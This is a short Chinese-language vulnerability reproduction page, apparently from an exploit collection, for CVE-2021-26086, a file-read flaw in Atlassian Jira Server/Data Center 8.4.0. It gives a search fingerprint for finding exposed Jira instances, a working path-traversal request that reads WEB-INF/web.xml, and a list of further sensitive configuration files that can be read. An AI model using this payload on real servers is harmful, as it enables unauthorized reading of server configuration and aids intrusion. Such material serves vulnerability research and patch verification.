 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

```
Atlassian Jira Server/Data Center 8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](images/202205241424642.png)

验证POC

```
/s/cfx/_/;/WEB-INF/web.xml
```

![](images/202205241424545.png)

可读取敏感配置文件

```
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

